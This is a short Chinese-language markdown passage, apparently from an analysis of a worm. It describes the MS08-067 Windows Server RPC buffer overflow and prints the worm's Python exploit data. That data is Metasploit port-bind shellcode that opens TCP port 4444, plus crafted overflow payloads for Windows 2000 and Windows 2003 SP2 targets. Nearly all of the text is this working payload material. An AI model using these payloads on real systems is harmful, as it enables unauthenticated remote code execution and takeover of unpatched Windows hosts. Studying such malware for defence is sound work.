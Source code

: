 ```
```
##### 2.MS08-067

> MS08-067漏洞的全称为“Windows Server服务RPC请求缓冲区溢出漏洞”，如果用户在受影响的系统上收到特制的 RPC 请求，则该漏洞可能允许远程履行代码。在 Microsoft Windows 2000、Windows XP 和 Windows Server 2003 系统上，攻击者可能未经身份验证即可利用此漏洞运行任意代码

该漏洞披露事件为2008年，具体测试操作方法可直接采用[MS08_067](https://www.cnblogs.com/yayaer/p/6685527.html)

该蠕虫采取的方法为

```python
# Portbind shellcode from metasploit; Binds port to TCP port 4444
SHELLCODE = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
SHELLCODE += "\x29\xc9\x83\xe9\xb0\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\xe9"
SHELLCODE += "\x4a\xb6\xa9\x83\xee\xfc\xe2\xf4\x15\x20\x5d\xe4\x01\xb3\x49\x56"
SHELLCODE += "\x16\x2a\x3d\xc5\xcd\x6e\x3d\xec\xd5\xc1\xca\xac\x91\x4b\x59\x22"
SHELLCODE += "\xa6\x52\x3d\xf6\xc9\x4b\x5d\xe0\x62\x7e\x3d\xa8\x07\x7b\x76\x30"
SHELLCODE += "\x45\xce\x76\xdd\xee\x8b\x7c\xa4\xe8\x88\x5d\x5d\xd2\x1e\x92\x81"
SHELLCODE += "\x9c\xaf\x3d\xf6\xcd\x4b\x5d\xcf\x62\x46\xfd\x22\xb6\x56\xb7\x42"
SHELLCODE += "\xea\x66\x3d\x20\x85\x6e\xaa\xc8\x2a\x7b\x6d\xcd\x62\x09\x86\x22"
SHELLCODE += "\xa9\x46\x3d\xd9\xf5\xe7\x3d\xe9\xe1\x14\xde\x27\xa7\x44\x5a\xf9"
SHELLCODE += "\x16\x9c\xd0\xfa\x8f\x22\x85\x9b\x81\x3d\xc5\x9b\xb6\x1e\x49\x79"
SHELLCODE += "\x81\x81\x5b\x55\xd2\x1a\x49\x7f\xb6\xc3\x53\xcf\x68\xa7\xbe\xab"
SHELLCODE += "\xbc\x20\xb4\x56\x39\x22\x6f\xa0\x1c\xe7\xe1\x56\x3f\x19\xe5\xfa"
SHELLCODE += "\xba\x19\xf5\xfa\xaa\x19\x49\x79\x8f\x22\xa7\xf5\x8f\x19\x3f\x48"
SHELLCODE += "\x7c\x22\x12\xb3\x99\x8d\xe1\x56\x3f\x20\xa6\xf8\xbc\xb5\x66\xc1"
SHELLCODE += "\x4d\xe7\x98\x40\xbe\xb5\x60\xfa\xbc\xb5\x66\xc1\x0c\x03\x30\xe0"
SHELLCODE += "\xbe\xb5\x60\xf9\xbd\x1e\xe3\x56\x39\xd9\xde\x4e\x90\x8c\xcf\xfe"
SHELLCODE += "\x16\x9c\xe3\x56\x39\x2c\xdc\xcd\x8f\x22\xd5\xc4\x60\xaf\xdc\xf9"
SHELLCODE += "\xb0\x63\x7a\x20\x0e\x20\xf2\x20\x0b\x7b\x76\x5a\x43\xb4\xf4\x84"
SHELLCODE += "\x17\x08\x9a\x3a\x64\x30\x8e\x02\x42\xe1\xde\xdb\x17\xf9\xa0\x56"
SHELLCODE += "\x9c\x0e\x49\x7f\xb2\x1d\xe4\xf8\xb8\x1b\xdc\xa8\xb8\x1b\xe3\xf8"
SHELLCODE += "\x16\x9a\xde\x04\x30\x4f\x78\xfa\x16\x9c\xdc\x56\x16\x7d\x49\x79"
SHELLCODE += "\x62\x1d\x4a\x2a\x2d\x2e\x49\x7f\xbb\xb5\x66\xc1\x19\xc0\xb2\xf6"
SHELLCODE += "\xba\xb5\x60\x56\x39\x4a\xb6\xa9"

# Payload for Windows 2000 target
PAYLOAD_2000 = '\x41\x00\x5c\x00\x2e\x00\x2e\x00\x5c\x00\x2e\x00\x2e\x00\x5c\x00'
PAYLOAD_2000 += '\x41\x41\x41\x41\x41\x41\x41\x41'
PAYLOAD_2000 += '\x41\x41\x41\x41\x41\x41\x41\x41'
PAYLOAD_2000 += '\x41\x41'
PAYLOAD_2000 += '\x2f\x68\x18\x00\x8b\xc4\x66\x05\x94\x04\x8b\x00\xff\xe0'
PAYLOAD_2000 += '\x43\x43\x43\x43\x43\x43\x43\x43'
PAYLOAD_2000 += '\x43\x43\x43\x43\x43\x43\x43\x43'
PAYLOAD_2000 += '\x43\x43\x43\x43\x43\x43\x43\x43'
PAYLOAD_2000 += '\x43\x43\x43\x43\x43\x43\x43\x43'
PAYLOAD_2000 += '\x43\x43\x43\x43\x43\x43\x43\x43'
PAYLOAD_2000 += '\xeb\xcc'
PAYLOAD_2000 += '\x00\x00'

# Payload for Windows 2003[SP2] target
PAYLOAD_2003 = '\x41\x00\x5c\x00'
PAYLOAD_2003 += '\x2e\x00\x2e\x00\x5c\x00\x2e\x00'
PAYLOAD_2003 += '\x2e\x00\x5c\x00\x0a\x32\xbb\x77'
PAYLOAD_2003 += '\x8b\xc4\x66\x05\x60\x04\x8b\x00'
PAYLOAD_2003 += '\x50\xff\xd6\xff\xe0\x42\x84\xae'
PAYLOAD_2003 += '\xbb\x77\xff\xff\xff\xff\x01\x00'
PAYLOAD_2003 += '\x01\x00\x01\x00\x01\x00\x43\x43'
PAYLOAD_2003 += '\x43\x43\x37\x48\xbb\x77\xf5\xff'
PAYLOAD_2003 += '\xff\xff\xd1\x29\xbc\x77\xf4\x75'
PAYLOAD_2003 += '\xbd\x77\x44\x44\x44\x44\x9e\xf5'
PAYLOAD_2003 += '\xbb\x77\x54\x13\xbf\x77\x37\xc6'
PAYLOAD_2003 += '\xba\x77\xf9\x75\xbd\x77\x00\x00'

###  以上为 脚本中拷贝msf上的 payload 数据
```